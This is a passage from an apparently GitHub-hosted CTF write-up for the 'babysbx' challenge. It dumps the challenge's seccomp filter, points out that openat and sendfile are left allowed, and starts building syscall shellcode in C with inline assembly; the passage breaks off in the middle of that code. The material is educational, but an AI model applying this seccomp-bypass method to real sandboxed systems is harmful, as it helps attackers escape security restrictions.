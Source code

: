 # Exploiting
I broke down this challenge for 2 simple steps, first being bypassing the seccomp rules and the other being bypassing the `validate` function.

## Bypassing seccomp
I found this amazing document online [Guid of Seccomp in CTF](https://n132.github.io/2022/07/03/Guide-of-Seccomp-in-CTF.html) which talks about how to bypass seccomp in ctf challenges.

Using `seccomp-tools` I took a look at all the seccomp rules
```bash
$ seccomp-tools dump ./babysbx
Give me your shellcode:
==> Validating shellcode so it doesn't contain any invalid instruction.
Shellcode looks clean. Invoking..
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0c 0xc000003e  if (A != ARCH_X86_64) goto 0014
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x09 0xffffffff  if (A != 0xffffffff) goto 0014
 0005: 0x15 0x08 0x00 0x00000000  if (A == read) goto 0014
 0006: 0x15 0x07 0x00 0x00000001  if (A == write) goto 0014
 0007: 0x15 0x06 0x00 0x00000002  if (A == open) goto 0014
 0008: 0x15 0x05 0x00 0x0000003b  if (A == execve) goto 0014
 0009: 0x15 0x04 0x00 0x000000bb  if (A == readahead) goto 0014
 0010: 0x15 0x03 0x00 0x0000010b  if (A == readlinkat) goto 0014
 0011: 0x15 0x02 0x00 0x00000127  if (A == preadv) goto 0014
 0012: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x06 0x00 0x00 0x00000000  return KILL
```

And I quickly saw that I could use both `openat` to open the file and `sendfile`  to open and read the file.

I patched the binary to bypass the `validate`  function and tried running it with this shellcode
```c
#include <sys/uio.h>

#define NULL            ((void *)0)
#define STDOUT          (1)
#define SYS_sendfile    (0x28)
#define SYS_openat      (0x101)

void *syscall(int syscall_number,
              void *arg1,
              void *arg2,
              void *arg3,
              void *arg4,
              void *arg5,
              void *arg6);
asm(
".global syscall\n"
"syscall:\n"
"movq rax, rdi\n"
"movq rdi, rsi\n"
"movq rsi, rdx\n"
"movq rdx, rcx\n"
"movq r10, r8\n"
"movq r8, r9\n"
"movq r9, [rsp + 32]\n"
"syscall\n"
```